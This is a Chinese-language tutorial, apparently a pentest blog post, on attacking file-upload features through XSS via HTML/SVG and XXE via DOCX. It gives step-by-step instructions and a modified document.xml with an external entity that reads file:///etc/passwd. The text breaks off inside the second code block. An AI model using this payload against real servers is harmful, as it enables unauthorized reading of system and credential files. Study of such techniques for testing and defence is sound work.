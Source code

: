 一、服务器允许上传html、svg后缀的文件，则可以构造恶意JS脚本，进行XSS攻击。  
  
二、服务器允许上传docx、xlsx后缀的文件，则可以引入XML外部实体，进行XXE攻击。  
  
docx和xlsx文件都是一个ZIP压缩包，其中包含多个XML文件，可以向XML文件中注入XXEPayload，方法如下：  
  
docx  
  
1、新建docx文件并解压。  
  
2、解压后的文件结构如下图。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KpY8uRYvbC8DjUicBgroYpZjemG4hfvv9qn0UwBypVbCywH5C6mNAYAxlpEBfFf20RVT6O4928Mgh85NtCeF2jg/640?wx_fmt=png&from=appmsg "")  
  
word文件夹下有多个XML文件，均可以注入，但推荐修改document.xml。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KpY8uRYvbC8DjUicBgroYpZjemG4hfvv91kZDqYlUqDtoN5p02oawe1MLz9uxqia8wdhibAo9OKBicXOC06GDSs6RQ/640?wx_fmt=png&from=appmsg "")  
  
3、记事本打开文件document.xml进行修改。  
  
4、document.xml原内容如下：  
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:document>
    <w:body>
        <w:p w14:paraId="367FED8D" w14:textId="1728AEF6" w:rsidR="007A2F41" w:rsidRDefault="00653F26">
            <w:r>
                <w:rPr>
                    <w:rFonts w:hint="eastAsia"/>
                </w:rPr>
                <w:t></w:t>
            </w:r>
        </w:p>
        <w:sectPr w:rsidR="007A2F41">
            <w:pgSz w:w="11906" w:h="16838"/>
            <w:pgMar w:top="1440" w:right="1800" w:bottom="1440" w:left="1800" w:header="851" w:footer="992" w:gutter="0"/>
            <w:cols w:space="425"/>
            <w:docGrid w:type="lines" w:linePitch="312"/>
        </w:sectPr>
    </w:body>
</w:document>

```  
  
修改后的内容如下：  
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<w:document>
    <w:body>
        <w:p w14:paraId="367FED8D" w14:textId="1728AEF6" w:rsidR="007A2F41" w:rsidRDefault="00653F26">
            <w:r>
                <w:rPr>
                    <w:rFonts w:hint="eastAsia"/>
                </w:rPr>
                <w:t>&test;</w:t>
            </w:r>
        </w:p>
        <w:sectPr w:rsidR="007A2F41">
            <w:pgSz w:w="11906" w:h="16838"/>
            <w:pgMar w:top="1440" w:right="1800" w:bottom="1440" w:left="1800" w:header="851" w:footer="992" w:gutter="0"/>
            <w:cols w:space="425"/>
            <w:docGrid w:type="lines" w:linePitch="312"/>
        </w:sectPr>
```